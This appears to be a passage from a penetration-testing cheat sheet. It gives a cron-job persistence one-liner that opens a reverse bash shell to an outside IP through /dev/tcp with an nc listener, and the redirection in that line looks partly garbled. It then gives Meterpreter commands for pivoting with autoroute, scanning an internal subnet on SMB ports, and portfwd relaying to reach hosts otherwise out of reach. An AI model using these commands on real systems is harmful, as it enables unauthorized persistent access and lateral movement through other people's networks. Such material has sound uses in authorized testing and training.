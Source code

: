 ```bash
cat /etc/cron*
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.166.95.2/1234 &>81'" > cjob
crontab -i cjob
nc -lvnp 1234
```

## Pivoting

Pivoting is the unique technique of using an instance (also referred to as a ‘plant’ or ‘foothold’) to be able to move around inside a network. Basically using the first compromise to allow and even aid in the compromise of other otherwise inaccessible systems. In this scenario we will be using it for routing traffic from a normally non-routable network.

```bash
meterpreter > run autoroute -h
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
meterpreter >
msf > use auxiliary/scanner/portscan/tcp 
msf auxiliary(tcp) > set RHOSTS 10.1.13.0/24
msf auxiliary(tcp) > set PORTS 139,445
msf auxiliary(tcp) > set THREADS 50
msf auxiliary(tcp) > run
```


## Portfwd

The portfwd command from within the Meterpreter shell is most commonly used as a pivoting technique, allowing direct access to machines otherwise inaccessible from the attacking system. Running this command on a compromised host with access to both the attacker and destination network (or system), we can essentially forward TCP connections through this machine, effectively making it a pivot point. Much like the port forwarding technique used with an ssh connection, portfwd will relay TCP connections to and from the connected machines.

```bash
meterpreter > portfwd -h

```

- -L: Use to specify the listening host. Unless you need the forwarding to occur on a specific network adapter you can omit this option. If none is entered 0.0.0.0 will be used.
- -h: Displays the above information.
- -l: This is a local port which will listen on the attacking machine. Connections to this port will be forwarded to the remote system.
- -p: The port to which TCP connections will be forward to.
- -r: The IP address the connections are relayed to (target).

```
meterpreter > portfwd add –l 3389 –p 3389 –r  [target host]
meterpreter > portfwd delete –l 3389 –p 3389 –r [target host]
meterpreter > portfwd list
meterpreter > portfwd flush
```
